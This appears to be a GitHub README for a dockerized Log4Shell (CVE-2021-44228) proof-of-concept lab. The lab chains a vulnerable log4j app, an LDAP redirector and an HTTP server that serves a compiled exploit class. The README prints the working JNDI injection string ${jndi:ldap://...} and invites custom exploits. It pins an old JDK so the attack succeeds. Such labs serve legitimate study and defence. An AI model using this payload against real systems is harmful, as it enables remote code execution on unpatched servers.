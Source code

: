 # Full-chain dockerized Log4Shell (CVE-2021-44228)

Log4Shell (CVE-2021-44228) is a critical vulnerability in the popular log4j2 logging package.
This vulnerability is extremely easy to exploit, and was fixed in log4j2 version 2.15.
This repository combines several other repositories showcasing POC capabilities for the vulnrabilility but in fully dockerized environment.
Executing the vulnerability demands: vulnerable code running log4j, an LDAP server receiving the request, and server serving the exploit as compiled java class.

Further explanation cab be reached here:
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Usage

Build and run all the containers

```bash
sudo docker-compose up --build
```

Once everything is up and running, you could see the next message, indicating the exploit was successful:

```
marshalsec_1   | Send LDAP reference result for Exploit redirecting to http://http-server:8888/Exploit.class
vuln_1         | Hello from exploit!
vuln_1         | 17:26:26.531 [main] ERROR log4j - ${jndi:ldap://marshalsec:1389/Exploit}
```

Behind the scenes, the vulnerable code is requesting the `Exploit` class from the LDAP server, and executes it.
You can freely modify the `exploit/Exploit.java` file to make custom exploits.

## Notes

In recent JDK version, the variable `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default, thus stopping effectively the attack. Thats why I set the java version to older than that.